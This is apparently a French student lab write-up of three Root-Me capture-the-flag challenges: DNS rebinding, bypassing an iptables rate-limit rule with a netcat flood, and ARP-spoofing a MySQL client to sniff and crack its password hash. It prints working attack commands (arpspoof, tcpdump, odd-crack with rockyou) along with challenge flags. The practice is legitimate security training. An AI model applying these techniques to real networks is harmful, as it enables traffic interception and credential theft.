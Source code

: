 # TP6 : Un peu de root-me

- [I. DNS Rebinding](#i-dns-rebinding)
- [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
- [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)



## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

[Code source web](code-source.html)


En executant ce script, nous arrivons sur une page web avec, une page Admin bloquer, et l'utilisation basique qui est de recherche des sites via des URL.

Dans le code source ci-dessous : 

Nous comprenons que pour se connecter à la page admin, nous devons avoir une IP bien spécifique : `127.0.0.1`

En se renseignant sur le WEB, l'attaque DNS rebinding vise à spammer des requêtes DNS avec un TTL très bas permettant de tromper le site avec une IP différente.

Mettons cela en place, on trouve un tool sur internet : [DNS rebinding](https://lock.cmpxchg8b.com/rebinder.html)

Nous cherchons donc à crée un url utilisable, mais qui à l'IP pour se log en Admin, nous obtenons cela : ```7f000001.c0a80001.rbndr.us```

Ainsi il ne nous reste plus qu'à le rentrer dans la barre de recherhce incluse dans le site avec le bon lien vers la page admin : ```7f000001.c0a80001.rbndr.us:54022/admin```

Puis il faut spammmmmmm 

Et nous obtenons le flag !!!


## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

[Code du Firewall](CodeFirewall.sh)


Même but pour cette épreuve, nous devons accéder à une page bloquer par le firewall. Lien de cette page avec le port 54017.

Lors de l'analyse de code nous pouvons s'apercevoir que plusieurs règle de connexion à la page bloqué sont en ACCEPT et d'autre en DROP.

Ici notre but va donc être de réaliser une tâche en ACCEPT pour pouvoir se connecter à la page bloquer.

Plusieur façon sont possible, comme usurper la whitlist ou autre mais nous nous allons nous intérreser à cette ligne précisement : ```IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP ```

Ici on voit que si on envoie plus de 20 paquet et bien on est autoriser à se log à la page.

Créons donc un script pour essayer si cela fonctionne : 

```
For i in {1..20}; do netcat challenge01.root-me.org 54017 & do | http://challenge01.root-me.org:54017/reseau/ch17
```  
Rien de bien compliqué donc, un script qui crée une boucle pour aller jusqu'à 20 et qui éxécute en fond un netcat sur le port 54017, puis un curl de l'URL voulu.

### Réponse 

```
matis@thinkpad:~$ for i in {1..20}; do netcat challenge01.root-me.org 54017 & done | curl http://challenge01.root-me.org:54017/reseau/ch17

Nicely done:)

There are probably a few things the administrator was missing when writing this ruleset:

    1) When a rule does not match, the next one is tested against

    2) When jumped in a user defined chain, if there is no match, then the
       search resumes at the next rule in the previous (calling) chain

    3) The 'limit' match is used to limit the rate at which a given rule can
       match: above this limit, 1) applies

    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches
       a packet, then the search stops: the packet won't be tested against any
       other rules
    

The flag is: saperlipopete
```

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

Pour ce challenge, le but va ếtre de réaliser un Man in the Middle entre une DB et un client afin de récuperer le mot de passe et de se connecte a la DB.

Pour commencer on nous allons si'dentifier : 

```
root@fac50de5d760:~# apt install iproute2
root@fac50de5d760:~#ip a

root@fac50de5d760:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@fac50de5d760:~#
```

Nous sommes identifié en 127.18.0.2/16

Faisons un petit scan de port : 

```
root@fac50de5d760:~#apt install nmap
```
[Scan nmap](scan-nmap.sh)

Ici plusieurs chose apparaisse, le client en (172.18.0.3) et la DB en (172.18.0.4).
Au passage la DB a le port 3306 ouvert.

Lancer notre spoofing avec arp-spoof : 

```
root@fac50de5d760:~#apt install dnsiff

root@fac50de5d760:~# arpspoof -t 172.18.0.3 -r 172.18.0.4
```

Ici la commande viens empoisonner la talbe arp du client en faisant croir eque nus sommes la DB. 
Maintenant il est donc possible de recevoir les échanges entre le client et la db.

Pour capturer cela, on va faire un tcp dump sur le port 3306 de la db ouvert souvenez-vous.

```
root@fac50de5d760:~# apt install tcpdump
```

[Lien du dump](tcpdump.MD)

Par faciliter pour le lecteur j'ai mis que la ligne qui contient le flag.

OK, premiere partie de faite et il nous reste la plus facile et plus dure en même temps :)

Nous pouvons maintenant Brut force le mot de passe, cela serait très rapide et efficace mais nous nous voulons aller plus loin...

Je mets quand même cette partie : 

On installe hydra, petite commande et hop !

[Brut force](Brut-force.sh)

### Deuxieme façon de trouver le mot de passe 

Dans le dump tcp reçu entre le client et la DB, nous voyons appairaitre le "salt" du mot de passe ainsi que son sha1, c'est une partie très interréssante car en faisant des recherches nous réussissons à trouver la concaténations logique du sha1 sur "mysql_native_password"

Ca donne ça :  ```x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))```

Et en comprenant cela nous pouvons ainsi le brut force avec cette commande : 

```
matis@thinkpad:~$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:09791b4f3f1611084f1f581f3935400635333474 Bureau/root-me/rockyou.txt 6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] loading file...
[*] found heyheyhey=6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords
```

Ici plusieurs choses sont importantes à comprendre, tout d'abord pour obtenir le salt du mot de passe, nous devions exporter le tcpdump en local avec la commande : 

```
matis@thinkpad:~$ sudo scp -P 22222 root@ctf20.root.me.org:/root/toto.pcap
```

Et dans la commande pour brut force le mot de passe on se rend compte que le salt est en héxadécimale, donc sur le dump nous devions récuperer l'héxa du salt qui doit faire exactement 20 octets (NE PAS SE TROMPER...)

Voilà voilà, le mot de passe est donc heyheyhey.